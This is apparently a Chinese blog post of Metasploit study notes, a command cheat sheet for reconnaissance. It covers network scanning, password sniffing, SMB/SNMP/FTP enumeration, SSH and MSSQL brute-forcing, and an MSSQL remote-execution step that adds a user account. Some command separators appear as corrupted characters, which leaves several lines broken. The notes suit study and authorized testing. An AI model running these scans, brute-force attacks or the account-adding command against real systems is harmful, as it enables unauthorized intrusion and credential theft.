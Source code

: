```yaml
---
layout: post
title: MSF学习笔记04
categories: Security
description: MSF学习笔记
keywords: msf
---
```

## MSF信息收集
### nmap扫描
```
db_nmap -sV 192.168.1.1
```
### auxiliary扫描模块
RHOSTS <>RHOST
192.168.1.1-24	192.168.1.1/24
files:/root/ip.txt
#### arp扫描
```
msf > use auxiliary/scanner/discovery/arp_sweep 
set INTERFACE ̵ RHOSTS̵ SHOST̵ SMAC̵ THREADSҔ run
```

#### port扫描
```
use auxiliary/scanner/portscan/syn
set INTERFACE̵ PORTS̵ RHOSTS̵ THREADSҔ run
```

#### nmap ipid idle扫描
```

use auxiliary/scanner/ip/ipidseq
set RHOSTS 192.168.1.0/24 Ҕ run
nmap -PN -sI <dile地址> <扫描地址>
```
#### UDP扫描
```
use auxiliary/scanner/discovery/udp_sweep
use auxiliary/scanner/discovery/udp_probe
```

### 密码嗅探
```
use auxiliary/sniffer/psnuffle

```

### SMMP扫描
```
use auxiliary/scanner/snmp/snmp_login
use auxiliary/scanner/snmp/snmp_enum
use auxiliary/scanner/snmp/snmp_enumusers (windows)
use auxiliary/scanner/snmp/snmp_enumshares (windows)
```
### SMB扫描
SMB版本扫描
```
use auxiliary/scanner/smb/smb_version
```
扫描命名管道，判断SMB服务类型（账号、密码）
```
use auxiliary/scanner/smb/pipe_auditor
```
扫描通过SMB管道可以访问的RCERPC服务
```
use auxiliary/scanner/smb/pipe_dcerpc_auditor
```
SMB共享枚举（账号、密码）
```
use auxiliary/scanner/smb/smb_enumshares
```
SMB用户枚举（账号、密码）
```
use auxiliary/scanner/smb/smb_enumusers
```
SID枚举（账号、密码）
```
use auxiliary/scanner/smb/smb_lookupsid
```

### SSH扫描
SSH版本扫描
```
use auxiliary/scanner/ssh/ssh_version
```
SMB密码爆破
```
use auxiliary/scanner/ssh/ssh_login
	set USERPASS_FILE /usr/share/metasploit-framework/data/wordlists/
	root_userpass.txt ； set VERBOSE false ； run
```
SSH公钥登录
```
use auxiliary/scanner/ssh/ssh_login_pubkey
	set KEY_FILE id_rsa；set USERNAME root ；run
```
### windows缺少的补丁
基于已经取得的session进行检测
```
use post/windows/gather/enum_patches
	show advanced
	set VERBOSE yes
```
### mssql扫描
mssql扫描端口
```
TCP1433（动态端口）/UDP1434（查询TCP端口号）
use auxiliary/scanner/mssql/mssql_ping
```
爆破mssql密码
```
use auxiliary/scanner/mssql/mssql_login
```
远程执行代码
```
auxiliary/admin/mssql/mssql_exec
set CMD net user user pass /ADD
```
### FTP扫描
版本扫描
```
use auxiliary/scanner/ftp/ftp_version
use auxiliary/scanner/ftp/anonymous
use auxiliary/scanner/ftp/ftp_login
```